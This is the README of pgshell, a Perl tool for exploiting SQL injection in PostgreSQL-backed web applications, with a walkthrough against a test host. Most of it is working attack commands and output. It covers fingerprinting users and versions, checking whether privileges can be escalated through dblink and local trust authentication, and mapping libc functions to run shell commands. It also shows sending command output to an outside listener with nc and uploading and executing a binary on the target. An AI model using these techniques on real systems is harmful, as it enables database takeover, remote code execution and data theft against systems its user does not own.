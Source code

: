 # pgshell
A tool for exploiting SQL injections in PostgreSQL databases.

## Introduction

The pgshell Perl script exploits configuration weaknesses in the PostgreSQL database management system as they were discribed in the corresponding paper (Having Fun With PostgreSQL). It not only allows to gather target system and user information but also privilege escalation, executing of shell commands and uploading of binary files.

The general usage of pgshell could be outlined in three steps:

```
gathering information
creating the system and the upload framework
launching a shell and uploading files
```

The minimal parameters are the target host and a request file. The request file contains the HTTP request to send to the server plus a tag <<INJECTION>> that indicates, where to perform the SQL injection. A simple request file can look like this:

```
GET /index.php?id=1;<<INJECTION>> HTTP/1.0
```
If not stated otherwise, every execution of pgshell reads from and writes to a session file. This way, informations won't get lost and the process can be resumed at any time. Additional there are certain settings that can be made in order to work properly against the target system. If you wish to launch a shell or to upload files you need to know the path to the libc. Furthermore, for uploading files, pgshell creates a function which uses the libc function open. Two parameters are needed in order to successfully open a file. These values are the OR'ed (O_CREAT | O_APPEND | O_RDWR) and S_IRWXU. Find out, what values those will be on your target system and put everything in an initial session file:

```
=target.libc=/lib/libc.so.6
=target.flag.open=522
=target.flag.mode=448
```

### Setting up a test environment

pgshell comes with a shell script that will set up a test environment. That includes a database and a PHP script. Before you run that script, please make some changes in the script itself. First of all. specify the path of your PostgreSQL binaries. The TEMP_DIR variable determines the path into where the PHP script and a request file will be put. You need a PostgreSQL administrator user to create the test database. Put the username in DB_USER. The other variable settings are quite self explaining. After all, your script settings should look somehow like this:

```
BIN_DIR="/opt/postgresql/bin/"
TEMP_DIR="/tmp/test-env/"
DB_USER="pgsql"
TEST_USER="someone"
TEST_DBNAME="testdb"
TEST_TABLE="testtab"
```

Now, run it

```
$ ./test-env.sh
* generating test environment
  - creating temporary directory /tmp/test-env ... done
  - creating non-superuser someone ... done
  - creating database testdb ... done
  - creating table testtab ... done
  - creating php script ... done
  - creating HTTP request file ... done
* finished
	               
Please make sure, that 
   ... you have set up your web server to support php with PostgreSQL support
   ... you place /tmp/test-env//test-env.php in your web document root directory
   ... you disable magic quotes in your php.ini
```

When it finished without errors, move the test-env.php in /tmp/test-env/ into your web root. And then, depending where you moved it, edit the HTTP request file, so that it will be suite your requirements. The file will be /tmp/test-env/http-request:

```
$ cat /tmp/test-env/http-req
GET /test-env.php?id=1;<> HTTP/1.0 
```
 
Almost there. Just give it a try:
It should return a similar SQL syntax error message similar to that one below (Our target system is 192.168.1.158):

```
$ nc 192.168.1.158 80
GET /test-env.php?id=1;<<INJECTION>> HTTP/1.0

HTTP/1.1 200 OK
Server: Apache (FreeBSD)
Content-Length: 386
Connection: close
Content-Type: text/html


<html>
  <head>
    <title>pg_shell test page</title>
  </head>

  <br />

<b>Warning</b>:  pg_query() [<a href='function.pg-query'>function.pg-query</a>]: Query failed: ERROR:  unterminated quoted string at or near "'" at character 39 in <b>/usr/local/www/apache22/data/test-env.php</b> on line <b>16</b><br />
```

That's it. Now, have fun with PostgreSQL

## Example Usage

### Information Gathering

This is the first phase, where we gather as many information as possible. That inherits user names, superuser names, database and system information. Certain information, like superuser names, are basicly needed for further steps. If this is prior PostgreSQL 8.2, we won't have the luxury of a pg_sleep() function. But if PL/pgSQL language is available, pgshell will create it's own. Otherwise, we have to fallback on using the md5()-workaround, what will result in heavy CPU usage on the target system. In that case, it won't make sense to run multithreaded as several threads might influence each other's delay time. That's why pgshell will trottle back to a single thread. However, let's assume, we can create PL/pgSQL functions:

```
./pgshell -v -gIvid -gSle -gUsa 192.168.1.158 request
pg_shell - The PostgreSQL Shell; Version 1.0
(c) 2007 Nico Leidecker 
http://www.portcullis.co.uk - http://www.leidecker.info
* target is '192.168.1.158:80' with request from 'request'
* read session file
! no session file found: No such file or directory
* running with 10 threads
* PostgreSQL Settings:
    listen addresses: localhost
    port: 5432
    password encryption: no
* General Informations: 
    version: PostgreSQL 8.1.8 on i386-unknown-freebsd6.2, compiled by GCC gcc (GCC) 3.4.6 [FreeBSD] 20060305
    who am I? someone
    where am I? testdb
* User Informations:
    users: 2
pgsql
someone
    super users: 1
pgsql
* write session file
```

### Check Your Privileges

The current user someone is not a superuser. That's not surprising. But it might be interesting, if we had other privileges:

```
$ ./pgshell -gP someone 192.168.1.158 request
* User Privileges for someone:
   is a super user ... no
   can create databases ... no
   can update system catalogs... no
```

### Check Privilege Escalation Capabilities

So, we are a very low privileged user. But there might be a chance to escalade our privileges by exploiting a configuration weakness. That is the local trust authentication that is enabled by default, if you compiled PostgreSQL from the sources. The first we do, is to test the target system on it's escalation capability:

```
$ ./pgshell -pT 192.168.1.158 request
* Testing privilege escalation capabilities:
    checking functions:
        dblink() ... found
        dblink_exec() ... found
        dblink_connect() ... found
    local trust authentication: possible
* congratulations, the target system is capable for privilege escalation
```

That looks good. We now are able to do anything we want, as we'd be able to gain superuser privileges.

### Create Shell and Upload Framework

Before running shell commands or uploading files, we need to map the necessary functions. Just execute the following command ...

```
$ ./pgshell -cSU 192.168.1.158 request
mapping system function ... testing ... done
mapping open function ... done
mapping close function ... done
mapping write function ... done
preparing writing routine ... done
```

... and enjoy the following :)

### Run Shell Commands

Launching a shell and running commands can be done with the -aS flag. Please consider, that pgshell won't return any output, but will determine, whether the system() function call will return with 0 or not. You still can get the output via piping it to a reverse connection for instance:

```
$ sudo nc -lp 4141 &
[1] 2650
$ ./pgshell -aS 192.168.1.158 request
(quit with ^C)
> id | nc 192.168.1.169 4141
uid=70(pgsql) gid=70(pgsql) groups=70(pgsql)
> ^C
[1]+  Done                    sudo nc -lp 4141
```

### Upload Files

pgshell is able to upload (binary) files by using Base64 encoding. The syntax for uploading a simple file is:

```
./pgshell -aU source-file destination-file target request-file
```

In the following, we compile a simple C program, upload and execute it and pipe the output back to us.

```
$ cat <<EOF > upload.c
#include <stdio.h>
int main()
{
	printf("this binary file has been uploaded!\n");
	return 0;
}
EOF
$ gcc -o upload upload.c
$ ./pgshell -aU upload /tmp/upload 192.168.1.158 request
* uploading upload to /tmp/upload ... 13344/13344 ... completed
$ ./pgshell -aS 192.168.1.158 request
(quit with ^C)
> /tmp/upload | nc 192.168.1.169 4141
this binary file has been uploaded!
> ^C      
[1]+  Done                    nc -lp 4141
```


